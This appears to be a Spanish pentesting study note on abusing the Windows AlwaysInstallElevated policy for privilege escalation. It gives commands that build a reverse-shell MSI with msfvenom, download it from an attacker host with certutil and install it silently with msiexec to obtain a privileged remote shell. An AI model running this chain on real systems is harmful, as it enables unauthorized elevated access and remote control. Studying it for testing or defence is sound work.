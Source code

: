 -----
- Tags: #windows #teoria #practica #escalada 
-----

# AlwaysInstallElevated

El permiso **AlwaysInstallElevated** se refiere a una configuración de políticas de seguridad que afecta a la instalación de paquetes MSI (Windows Installer) y aplicaciones en sistemas operativos Windows. En resumen, permite a usuarios no administradores instalar paquetes MSI con privilegios elevados en Windows.

-------
# Explotación 

En caso de que estemos con herramientas como [WinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20230808-5e84dec0) analizando vías potenciales de escalar privilegios y veamos que tenemos el permiso **AlwaysInstallElevated** seteado en **1** con **HKLM** y **HKCU** podríamos empezara pensar visitar recursos como [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated) para abusar de esto e intentar escalar privilegios. 

Para entender más en profundidad el a que refiere **HKLM** y **HKCU**, podemos visitar el apartado de [[0. Windows Basics]].

Una vez verificado que ambos permisos esten seteados en 1, podríamos comenzar con la explotación para escalar privilegios, en este caso lo primero que tendríamos que hacer es crear un payload con la herramienta **msfvenom**. 

```bash
msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST={our_ip} LPORT={our_port} -f msi -o privesc.msi
```

Una vez creado el payload deberíamos transferirlo a la máquina victima, esto podríamos hacerlo con un simple **certutil.exe**.

```shell
certutil.exe -f --urlcache -split http://{our_ip}/privesc.msi
```

Una vez transferido el payload, solo quedaría abusar del privilegio **AlwasyInstallElevated** instalando el archivo malicioso **msi** creado.

```shell
msiexec /quiet /qn /i C:\{our}\{path}\privesc.msi
# /quiet -> No user interaction
# /qn -> No User Interface
# /i -> Status messages
```

Al momento de la ejecución de este último comando estaríamos instalando el archivo **msi** logrando que de manera privilegiada se ejecute el envío de una consola interactiva privilegiada al puerto y la ip especificada en el proceso de creación del payload con la herramienta **msfvenom**. 

